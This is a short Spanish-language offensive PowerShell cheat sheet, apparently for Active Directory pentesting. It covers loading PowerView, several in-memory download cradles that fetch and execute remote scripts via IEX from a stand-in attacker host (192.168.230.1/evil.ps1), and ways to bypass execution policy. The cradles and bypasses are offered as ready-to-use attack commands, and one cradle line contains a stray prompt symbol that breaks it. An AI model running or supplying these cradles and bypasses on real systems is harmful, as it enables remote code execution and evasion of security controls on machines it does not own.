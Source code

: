 # Powershell 

Tags: #Powershell 

## Cargar e importar un script 

```powershell 
❯ C:\AD\PowerView.ps1                   # Cargar un script 
❯ Import-Module C:\AD\PowerView.psd1    # Importar un modulo 
❯ Get-Command -Module <ModuleName>      # Listar modulos 
```

## Descargar un script 

* [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')  # Descargar executable en memoria 

❯ $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

❯ PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')

❯ $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex ❯ $h.responseText

❯ $wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
❯ $r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Política de ejecución 

* [15 ways to bypass Powershell execution policy](https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy)

```powershell 
❯ powershell -ExecutionPolicy bypass 
❯ powershell -c <cmd>
❯ powershell -encodedcommand 
$env:PSExecutionPolicyPreference="bypass"
```
